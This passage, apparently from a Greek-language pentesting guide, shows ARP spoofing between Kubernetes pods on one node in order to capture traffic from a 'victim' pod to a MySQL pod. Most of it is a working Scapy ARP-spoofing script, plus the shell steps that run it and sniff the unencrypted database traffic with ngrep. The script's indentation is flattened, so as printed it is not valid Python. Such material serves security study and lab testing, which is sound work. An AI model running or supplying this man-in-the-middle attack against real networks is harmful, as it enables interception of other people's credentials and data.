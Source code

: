 ## Παραποίηση ARP σε pods στον ίδιο Κόμβο

Ο στόχος μας είναι να **κλέψουμε τουλάχιστον την επικοινωνία από το ubuntu-victim προς το mysql**.

### Scapy
```bash
python3 /tmp/arp_spoof.py
Enter Target IP:172.17.0.10 #ubuntu-victim
Enter Gateway IP:172.17.0.9 #mysql
Target MAC 02:42:ac:11:00:0a
Gateway MAC: 02:42:ac:11:00:09
Sending spoofed ARP responses

# Get another shell
kubectl exec -it ubuntu-attack -- bash
ngrep -d eth0

# Login from ubuntu-victim and mysql and check the unencrypted communication
# interacting with the mysql instance
```
{% code title="arp_spoof.py" %}
```python
#From https://gist.github.com/rbn15/bc054f9a84489dbdfc35d333e3d63c87#file-arpspoofer-py
from scapy.all import *

def getmac(targetip):
arppacket= Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
targetmac= srp(arppacket, timeout=2 , verbose= False)[0][0][1].hwsrc
return targetmac

def spoofarpcache(targetip, targetmac, sourceip):
spoofed= ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
send(spoofed, verbose= False)

def restorearp(targetip, targetmac, sourceip, sourcemac):
packet= ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
send(packet, verbose=False)
print("ARP Table restored to normal for", targetip)

def main():
targetip= input("Enter Target IP:")
gatewayip= input("Enter Gateway IP:")

try:
targetmac= getmac(targetip)
print("Target MAC", targetmac)
except:
print("Target machine did not respond to ARP broadcast")
quit()

try:
gatewaymac= getmac(gatewayip)
print("Gateway MAC:", gatewaymac)
except:
print("Gateway is unreachable")
quit()
try:
print("Sending spoofed ARP responses")
while True:
spoofarpcache(targetip, targetmac, gatewayip)
spoofarpcache(gatewayip, gatewaymac, targetip)
except KeyboardInterrupt:
print("ARP spoofing stopped")
```